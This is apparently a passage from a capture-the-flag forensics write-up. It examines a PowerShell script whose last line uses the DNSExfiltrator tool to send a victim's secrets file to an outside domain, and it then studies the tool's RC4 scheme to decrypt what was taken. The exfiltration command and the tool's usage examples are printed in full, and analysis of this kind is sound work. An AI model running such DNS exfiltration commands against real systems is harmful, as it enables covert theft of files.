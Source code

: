 ```powershell
    PS C:\> Invoke-DNSExfiltrator -i anyFile -d mydomain.com -p password -l 40
    
    # Using Google DoH (DNS over HTTP), without any option
    PS C:\> Invoke-DNSExfiltrator -i anyFile -d mydomain.com -p password -h google
    
    #>
    [...]
    # Invoke the Main entry point
    [DNSExfiltrator.DNSExfiltrator]::Main($Args)
}

Invoke-DNSExfiltrator -i C:\Users\Tom\Desktop\secrets.txt.txt -d igotoschoolbybus.online -p 'K#2dF!8t@1qZ' -s 192.168.135.135
```

Wow! `Invoke-DNSExfiltrator`??

> DNSExfiltrator allows for transfering (_exfiltrate_) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel. (from [https://github.com/Arno0x/DNSExfiltrator/tree/master](https://github.com/Arno0x/DNSExfiltrator/tree/master))

Oh wow! Looks like the attacker used [DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator/tree/master) to exfiltrate the contents of `secret.txt.txt`!

After reading a little about the tool, we can break down the last line of the `list-dns-servers.ps1` script!

The `Invoke-DNSExfiltrator` was ran on the victim machine, and:

1. Exfiltrate file `C:\Users\Tom\Desktop\secrets.txt.txt` (option `-i`)
2. Send the file to domain `igotoschoolbybus.online` (option `-d`)
3. Encryption the file with password `K#2dF!8t@1qZ` (option `-p`)
4. Set the DNS server to be `192.168.135.135` (option `-s`)

### Decrypt the File

That being said, **we should be able to recover/decrypt the contents of `secrets.txt.txt` if we know how the tool encrypt it!**

By looking at the server side Python script `dnsexfiltrator.py` (acts as a custom DNS server, receiving the file), **the exfiltrated files will be compressed (zip), encrypted using the RC4 (Rivest Cipher 4) encryption algorithm:**

```python
[...]
class RC4:
    def __init__(self, key = None):
        self.state = range(256) # initialisation de la table de permutation
        self.x = self.y = 0 # les index x et y, au lieu de i et j

        if key is not None:
            self.key = key
            self.init(key)

    # Key schedule
    def init(self, key):
        for i in range(256):
            self.x = (ord(key[i % len(key)]) + self.state[i] + self.x) & 0xFF
            self.state[i], self.state[self.x] = self.state[self.x], self.state[i]
        self.x = 0

    # Decrypt binary input data
    def binaryDecrypt(self, data):
        output = [None]*len(data)
        for i in xrange(len(data)):
            self.x = (self.x + 1) & 0xFF
```